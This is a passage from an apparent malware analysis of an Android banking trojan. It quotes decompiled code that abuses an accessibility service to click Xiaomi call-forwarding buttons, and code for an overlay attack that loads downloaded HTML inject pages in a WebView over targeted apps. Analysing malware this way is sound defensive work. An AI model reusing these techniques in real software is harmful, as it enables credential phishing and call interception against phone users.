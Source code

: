 ```cs
                    if(injAccessibilityService0.getRootInActiveWindow() != null) {
                        injAccessibilityService0.getRootInActiveWindow().refresh();
                    }

                    boolean z = this.tryToClickXiaomiCallForwardingButton(injAccessibilityService0, accessibilityEvent0);
                }
                catch(InterruptedException unused_ex) {
                    return;
                }

                if(z) {
                    return true;
                }

                ++v;
                continue;
                this.tryToClickXiaomiCallForwardingButton(injAccessibilityService0, accessibilityEvent0);
                return false;
            }
        }
```

## Overlay attack

The malware will download a `zip` file contains `html` files of the targeted apps. If a targeted APP is opened then the malware will launch the `html` file of the targeted app. Located in `com.sdktools.android.bot.components.injects.system`.

```cs
public class ViewerActivityInterfaceImpl extends IScreen {
    public interface LifeCycleListener {
        boolean onPause();

        boolean onResume();
    }

 public ViewerActivityInterfaceImpl(InjectModel injectModel0) {
        this.injectModel = injectModel0;
    }

    public ViewerActivityInterfaceImpl(InjectModel injectModel0, LifeCycleListener viewerActivityInterfaceImpl$LifeCycleListener0) {
        this.injectModel = injectModel0;
        this.lifeCycleListener = viewerActivityInterfaceImpl$LifeCycleListener0;
    }

    private void handleData(Activity activity0) {
        try {
            this.webView.clearView();
            String s = this.injectModel.getInjectPath();
            s = s.startsWith("http") ? this.injectModel.getInjectPath() : "file:///" + s;
            this.webView.loadUrl(s);
            Timber.d("INJECTS -> display file: " + s, new Object[0]);
        }
        catch(Exception unused_ex) {
        }
    }

    private void init() {
        this.webView.getSettings().setDomStorageEnabled(true);
        if(Build.VERSION.SDK_INT >= 21) {
```